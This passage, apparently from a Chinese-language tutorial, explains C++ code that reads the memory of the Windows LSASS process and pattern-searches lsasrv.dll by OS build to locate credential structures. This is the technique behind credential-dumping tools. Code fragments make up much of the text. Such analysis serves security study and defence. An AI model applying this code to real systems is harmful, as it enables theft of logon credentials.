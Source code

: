 ```c++
			if (genericPtr1)
			{
				lsassMemory.address = (PBYTE)sMemory.result + currentReference->Offsets.off1;
				if (status = ReadProcessMemory(cLsass->hProcess, lsassMemory.address, &offset, sizeof(LONG), NULL))
				{
					*genericPtr1 = ((PBYTE)lsassMemory.address + sizeof(LONG) + offset);
				}
			}

			if (genericOffset)
				*genericOffset = currentReference->Offsets.off1;
		}
	}
	pLib->isInit = status;
	return status;
}
```

在该函数内部，`GetGenericFromBuild()` 会根据 `cLsass->osContext.BuildNumber` 记录的版本号在 `LsaSrvReferences` 中选择适用于当前系统版本的特征码规则，并赋值给  `currentReference`。然后将 `currentReference` 连同 `&sMemory` 传入自定义函数 `MemorySearch()`。其中 `sMemory` 是一个 `MEMORY_SEARCH` 结构体，用于临时保存 lsasrv.dll 模块的基地址和映像大小，其定义如下。

```c++
typedef struct _MEMORY_SEARCH {
	MEMORY_RANGE memoryRange;
	LPVOID result;
} MEMORY_SEARCH, * PMEMORY_SEARCH;

typedef struct _MEMORY_RANGE {
	MEMORY_ADDRESS memoryAdress;
	SIZE_T size;
} MEMORY_RANGE, * PMEMORY_RANGE;

typedef struct _MEMORY_ADDRESS {
	LPVOID address;
} MEMORY_ADDRESS, * PMEMORY_ADDRESS;
```

 `MemorySearch()` 函数用于在内存中匹配特征码，其定义如下。其首先划分出 lsasrv.dll 模块的内存空间从而确定要搜索范围的最大内存地址 `limit`，然后遍历 `limit` 范围的内存，通过 `RtlEqualMemory()` 函数匹配出与特征码相同的内存块，最终确定特征码的地址。

```c++
BOOL MemorySearch(HANDLE hProcess, LPBYTE Pattern, SIZE_T Length, PMEMORY_SEARCH Search)
{
	BOOL status = FALSE;
	MEMORY_SEARCH sBuffer = { { NULL, Search->memoryRange.size}, NULL };
	PBYTE CurrentPtr;
	PBYTE limit;

	if (sBuffer.memoryRange.memoryAdress.address = LocalAlloc(LPTR, Search->memoryRange.size))
	{
		if (ReadProcessMemory(hProcess, Search->memoryRange.memoryAdress.address, sBuffer.memoryRange.memoryAdress.address, Search->memoryRange.size, NULL))
		{
			limit = (PBYTE)sBuffer.memoryRange.memoryAdress.address + sBuffer.memoryRange.size;
			for (CurrentPtr = (PBYTE)sBuffer.memoryRange.memoryAdress.address; !status && (CurrentPtr + Length <= limit); CurrentPtr++)
				status = RtlEqualMemory(Pattern, CurrentPtr, Length);
			CurrentPtr--;
			Search->result = (PBYTE)Search->memoryRange.memoryAdress.address + ((PBYTE)CurrentPtr - (PBYTE)sBuffer.memoryRange.memoryAdress.address);
		}
	}
	return status;
```